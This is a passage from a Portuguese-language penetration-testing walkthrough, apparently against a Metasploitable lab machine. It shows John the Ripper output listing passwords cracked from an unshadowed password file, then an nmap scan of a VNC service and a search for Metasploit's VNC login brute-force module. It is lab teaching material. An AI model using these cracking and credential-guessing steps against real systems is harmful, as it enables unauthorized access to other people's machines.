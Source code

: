 ```bash
123456789        (klog)
batman           (sys)
Proceeding with incremental:ASCII

...

```

Depois que o comando terminar, podemos exibir os resultados da seguinte forma:

```bash
└─$ john --show /tmp/unshadowed.txt
sys:batman:3:3:sys:/dev:/bin/sh
klog:123456789:103:104::/home/klog:/bin/false
msfadmin:msfadmin:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
postgres:postgres:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
user:user:1001:1001:just a user,111,,:/home/user:/bin/bash
service:service:1002:1002:,,,:/home/service:/bin/bash

6 password hashes cracked, 1 left
```
Ao utilizar a wordlist `password.lst`, não foram encontradas outras senhas além daquelas obtidas anteriormente.

## VNC (Virtual Network Computing)

Relembrando da nossa enumeração inicial de portas, havia uma porta aberta referente ao serviço VNC. Veja:

```bash
└─$ nmap -sV 192.168.1.30 -p 5900
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 18:52 -03
Nmap scan report for 192.168.1.30
Host is up (0.0017s latency).

PORT     STATE SERVICE VERSION
5900/tcp open  vnc     VNC (protocol 3.3)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```
_Observação: a flag `-sV` habilita a detecção de serviço, retornando informações sobre suas versões._

O VNC é um protocolo para controle remoto de desktops, e pode ser uma porta de entrada para obter acesso gráfico ao sistema. A seguir, vamos utilizar o Metasploit para tentar autenticar no serviço VNC.

```bash
msfconsole
```

Busque pelo módulo que testa credenciais de login para o VNC.

```bash
msf6 > search vnc_login

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/vnc/vnc_login  .                normal  No     VNC Authentication Scanner
```
